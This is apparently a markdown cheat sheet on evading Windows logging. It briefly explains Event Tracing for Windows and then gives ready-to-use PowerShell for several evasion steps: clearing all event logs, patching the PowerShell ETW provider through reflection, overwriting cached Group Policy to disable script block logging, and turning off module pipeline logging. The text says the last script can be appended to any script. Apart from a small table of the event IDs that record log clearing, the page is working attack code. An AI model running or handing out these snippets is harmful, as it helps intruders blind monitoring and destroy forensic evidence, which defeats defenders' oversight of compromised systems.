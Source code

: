 # Evading Logging

## Event Tracing for Windows
Event Tracing for Windows (ETW) is logging mechanism built into Windows that allows the operating system and applications to record detailed events for diagnostics, debugging, and performance monitoring.

| Component   | Purpose     |
|:-----------:|:-----------:|
| Controllers |	Build and configure sessions |
| Providers	  | Generate events |
| Consumers	  | Interpret events |


| Component   | Techniques |
|:-----------:|:-----------:|
| Controller  | Patching EtwEventWrite, Runtime Tracing Tampering| 
| Provider    | PSEtwLogProvider Modification, Group Policy Takeover, Log Pipeline Abuse, Type Creation |
| Consumers   | Log Smashing, Log Tampering |

### Clearing Logs
```
Clear-EventLog -LogName Application, System, Security
Get-EventLog -LogName * | ForEach-Object { Clear-EventLog -LogName $_.Log }
```

|Event ID | Purpose     |
|:-------:|:-----------:|
|1102     |  Logs when the Windows Security audit log was cleared |
|104      |  Logs when the log file was cleared |
|1100     |  Logs when the Windows Event Log service was shut down |

### Powershell Reflection Bypass

```
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

```
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
```

### GPO Bypass

```
# Disable logging for event IDs: 4103, 4104
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

### Abusing Log Pipeline

```
# TThis script can be appended to any PowerShell script or run in a session to disable module logging of currently imported modules
$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false
```